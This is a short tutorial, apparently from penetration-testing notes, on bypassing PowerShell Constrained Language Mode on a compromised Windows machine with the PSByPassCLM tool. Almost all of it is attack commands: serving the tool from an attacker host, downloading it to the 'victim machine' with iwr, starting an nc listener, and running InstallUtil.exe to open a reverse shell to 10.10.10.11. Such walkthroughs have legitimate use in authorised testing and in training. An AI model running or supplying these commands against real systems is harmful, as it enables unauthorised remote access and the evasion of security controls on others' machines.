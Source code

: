 # Bypass Constraint Language in a PowerShell

It’s possible that sometimes when you gain access to a Windows machine and you have a PowerShell, that this is in a constraint language context. In the victim machine, you can check that with the `$ExecutionContext.SessionState.LanguageMode` command. PSByPassCLM can bypass this by creating a new reverse shell, you can bypass this context.

Clone the PSByPassCLM repository

```text
git clone https://github.com/padovah4ck/PSByPassCLM
```

Transfer PSByPassCLM.exe to the victim machine, to do this we need a listener:

```text
cd PSByPassCLM/PSByPassCLM/PSBypassCLM/bin/x64/Debug
python -m http.server 80
```

Then we may be able to download the file to our target machine with:

```text
iwr -uri http://10.10.10.11/PsByPassCLM.exe -OutFile c:\temp\psby.exe
```

Set up a listening port to catch a reverse shell connection:

```text
rlwrap nc -nlvp 443
```

Run the reverse shell with the following command:

```text
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.10.11 /rport=443 /U c:\temp\psby.exe
```

In the new shell session, if you type `$ExecutionContext.SessionState.LanguageMode`, you will be able to check if you're in a `FullLanguage` context.

